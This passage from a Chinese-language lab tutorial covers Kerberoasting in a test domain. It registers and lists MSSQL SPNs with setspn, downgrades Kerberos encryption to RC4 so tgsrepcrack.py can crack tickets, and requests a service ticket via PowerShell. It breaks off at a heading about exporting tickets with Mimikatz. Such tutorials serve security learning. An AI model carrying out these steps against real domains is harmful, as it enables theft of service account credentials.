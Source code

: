 配置MSSQL服务，然后手动注册SPN：

```powershell
setspn -A MSSQLSvc/computer1.hackme.com:1433 mssql
```

##### 查看用户所对应的SPN

查看用户所对应的SPN：

```powershell
setspn -L hackme.com\mssql
```

查看所有注册的SPN：

```powershell
setspn -T domain -q */*
```

查看指定用户注册的SPN，命令如下：

```powershell
setspn -L hackme.com\mssql
```

##### 使用adsiedit.msc查看用户SPN及其它高级属性

可以使用该Windows工具查看用户SPN以及其它高级属性。

##### 配置指定服务的登陆权限

配置如下：

![image-20220422185923687](./image-20220422185923687.png)

注意该配置应该是`HACKME\mssql,NT SERVICE\ALL SERVICES`，而不是上面图片那样的。

##### 修改加密类型

由于Kerberos协议的默认加密方式为AES256_HMAC，而通过`tgsrepcrack.py`无法破解该加密方式，所以攻击者会通过服务器组策略将加密方式设置为`RC4_HMAC_MD5`，配置组策略：

```powershell
\Computer Configuration\Windows Settins\Security Settings\Local Policies\Security Options\Network security: Configure encryption types allowed for Kerberos
```

设置该选项为`RC4_HMAC_MD5`。

##### 请求SPN Kerberos票据

在Powershell中：

```powershell
Add-Type -AssemblyName system.identityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/computer1.hackme.com"
```

##### 使用Mimikatz导出票据
